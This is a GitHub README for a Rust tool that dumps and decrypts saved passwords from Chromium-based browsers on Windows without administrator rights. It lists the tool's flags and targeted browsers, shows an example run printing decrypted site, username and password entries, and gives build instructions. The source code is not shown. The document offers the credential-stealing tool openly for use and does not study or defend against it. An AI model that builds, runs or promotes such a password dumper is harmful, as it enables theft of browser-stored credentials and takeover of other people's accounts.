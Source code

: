 # chrome-pwd-dumper-rs
A Windows Chromium based password dumper written in rust

<p align="center">
  <img width="500" height="380" src="./logo.png">
</p>

## Compatibility
- Tested Microsoft Windows 10 Education 64-bit (Build 17763)

You can make a PR if it works on older versions of Windows

## Flags
```
chrome-pwd-dumper 0.3.0
Windows Chromium based password dumper that doesn't require admin rights

USAGE:
    chrome-pwd-dumper.exe [FLAGS] [OPTIONS] [--] [FILE]

FLAGS:
    -h, --help       Prints help information
    -p, --print      Print to stdout
    -V, --version    Prints version information

OPTIONS:
    -b <browsers>...         Select a browser. If left blank, program will try to get all the data available. Browsers
                             selection: `edge`, `chromium`, `7star`, `amigo`, `brave`, `centbrowser`, `chedot`,
                             `chrome_canary`, `coccoc`, `dragon`, `elements-browser`, `epic-privacy-browser`, `chrome`,
                             `kometa`, `orbitum`, `sputnik`, `torch`, `ucozmedia`, `vivaldi`, `atom-mailru` [default: all]
    -f, --format <format>    Available format `json`, `txt` [default: json]

ARGS:
    <FILE>    File name of output file [default: dump]
```

## Example Usage
```
.\chrome-pwd-dumper.exe -b edge -f json -p dump2
[
    Dumper {
        app_info: AppInfo {
            name: "Edge",
            author: "Microsoft",
        },
        accounts: [
            DecryptedAccount {
                website: "https://app.houseparty.com/login",
                username_value: "xXxChromeSlayer420xXx",
                pwd: "xXxChromeSlayer420xXx",
            },
            DecryptedAccount {
                website: "https://accounts.google.com/signin/v2/challenge/password/empty",
                username_value: "xXxChromeSlayer420xXx",
                pwd: "xXxChromeSlayer420xXx",
            },
        ],
    },
]
Dumped!
```

## How to build
```
// recommended
cargo build --release

// for more optimised builds (If target is not the same as your cpu it might not work!)
cargo rustc --release -- -C target-cpu=native

// Optimise for binary size
// Current config builds with opt-level = 3 for performance
// Change to opt-level = 'z' in Cargo.toml 

```

## License
chrome-pwd-dumper-rs is licensed under MIT license (LICENSE-MIT or http://opensource.org/licenses/MIT)

